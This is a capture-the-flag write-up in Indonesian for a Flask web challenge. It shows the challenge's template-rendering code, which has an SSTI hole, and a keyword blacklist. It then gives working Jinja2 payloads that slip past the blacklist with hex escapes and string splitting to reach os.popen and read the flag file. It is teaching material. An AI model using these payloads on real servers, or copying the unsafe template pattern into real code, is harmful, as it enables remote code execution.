

# Flasksibel

Author: daffainfo

Category: Web

Flag: `HC5{4P4k4H_k4L14N_b4Ru_M3ng3N4l_55T1???}`

## Description
Let's ping the website!!

## Difficulty
Advanced

## Solution
Mari kita analisis terlebih dahulu source code yang ada

```py
@app.route('/', methods=['GET', 'POST'])
def index():
    username = ''
    
    if request.method == 'POST':
      username = request.form['username'] or ''
      username = sanitize_input(username)
      if not username:
        return jsonify({'error': 'Forbidden Words'})
	
    template = '''<!DOCTYPE html>
    <html>
    <body>
    <form action="" method="POST">
      Username: <input name="username"> <br>
      <input type="submit" value="Preview!">
    </form>
    <p>{}</p>
    </body>
    </html>'''.format(username)
    return render_template_string(template)
```

Terdapat 1 endpoint bernama `/` yang menerima 2 method yaitu `POST` dan `GET`. Kemudian jika kita memasukkan POST method, maka website akan mengambil value dari parameter bernama `username` kemudian dilakukan sanitasi terlebih dahulu dengan fungsi `sanitize_input`

```py
blacklist = ["os", "popen", "subprocess", "_", "mro", ".", "globals", "locals", "config", "builtins", "import"]

def sanitize_input(name):
    for word in blacklist:
        if word in name:
            return False
    return name
```

Jika pada input kita mengandung kata-kata yang ada pada array bernama `blacklist`, maka fungsi `sanitize_input` akan mereturn nilai `False` dan akan muncul tulisan `Forbidden Words`


Kemudian jika selesai dicek hasil input kita, maka hasil input kita akan dirender dan ditampilkan pada website


Jika dilihat kode sumbernya, maka kode sumber ini rentan terhadap SSTI (Server Side Template Injection). Untuk melakukan testing apakah memang benar rentan atau tidak bisa menggunakan payload dibawah

```
{{7*7}}
```

Jika outputnya `49`, maka terbukti rentan



Mari kita eksploitasi sehingga dari kerentanan SSTI bisa dieskalai sehingga bisa menjalankan comand-command yang berbahaya (Remote Code Execution)

Cara paling mudah untuk mengerjakan soal CTF yang berhubungan dengan SSTI adalah dengan menggunakan payload yang ada pada [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) dan dimodifikasi payloadnya agar bisa disesuaikan dengan soal (Namun sangat disarankan untuk belajar python terlebih dahulu untuk bisa mengerti bagian tiap payload)

Payload yang digunakan adalah seperti gambar dibawah

```
{{request["application"]["\x5f\x5fglob"+"als\x5f\x5f"]["\x5f\x5fbuilt"+"ins\x5f\x5f"]["\x5f\x5fimp"+"ort\x5f\x5f"]("o"+"s")["po"+"pen"]("ls")["read"]()}}
```

Payload diatas digunakan untuk mengimport modul `os` dan memanggil fungsi `popen` agar bisa mengeksekusi sebuah command. Untuk menghindari penggunaan `_` karena diblacklist, maka digunakanlah karaketer `\x5f`. Dan juga terdapat beberapa kata yang diblacklist, namun untuk membypassnya displit menggunakan `+`


Maka, untuk membaca filenya, maka yang dibutuhkan adalah mengganti command `ls` menjadi `cat /flag*` (Tidak menggunakan `flag.txt` karena mengandung `.` yaitu karakter yang diblacklist)

```
{{request["application"]["\x5f\x5fglob"+"als\x5f\x5f"]["\x5f\x5fbuilt"+"ins\x5f\x5f"]["\x5f\x5fimp"+"ort\x5f\x5f"]("o"+"s")["po"+"pen"]("cat /flag*")["read"]()}}
```

